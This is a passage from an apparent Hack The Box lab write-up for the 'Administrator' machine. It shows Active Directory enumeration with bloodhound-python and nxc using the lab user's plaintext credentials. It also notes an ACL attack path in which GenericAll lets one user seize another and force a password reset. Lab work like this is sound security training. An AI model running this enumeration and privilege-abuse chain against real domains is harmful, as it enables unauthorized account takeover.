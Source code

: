 
```sh
┌──(fixit42㉿kali)-[~/boxes/htb/administrator]
└─$ bloodhound-python -u 'olivia' -p 'ichliebedich' -d administrator.htb -dc DC.administrator.htb -ns 10.129.203.207 -c all
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: administrator.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: DC.administrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: DC.administrator.htb
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.administrator.htb
INFO: Done in 00M 06S
```

```sh
┌──(fixit42㉿kali)-[~/boxes/htb/administrator]
└─$ nxc ldap 10.129.203.207 --dns-server 10.129.203.207 -d administrator.htb -u olivia -p ichliebedich --bloodhound --collection All
LDAP        10.129.203.207  389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
LDAP        10.129.203.207  389    DC               [+] administrator.htb\olivia:ichliebedich 
LDAP        10.129.203.207  389    DC               Resolved collection methods: container, dcom, trusts, acl, psremote, localadmin, objectprops, session, group, rdp                                                                                       
LDAP        10.129.203.207  389    DC               Done in 00M 07S
LDAP        10.129.203.207  389    DC               Compressing output into /home/fixit42/.nxc/logs/DC_10.129.203.207_2025-08-02_040153_bloodhound.zip
```

![[Images/Pasted image 20250802041927.png]]
The user OLIVIA@ADMINISTRATOR.HTB has GenericAll permissions to the user MICHAEL@ADMINISTRATOR.HTB.

This is also known as full control. This permission allows the trustee to manipulate the target object however they wish.

![[Images/Pasted image 20250802042009.png]]
The user MICHAEL@ADMINISTRATOR.HTB has the capability to change the user BENJAMIN@ADMINISTRATOR.HTB's password without knowing that user's current password.

![[Images/Pasted image 20250802042649.png]]
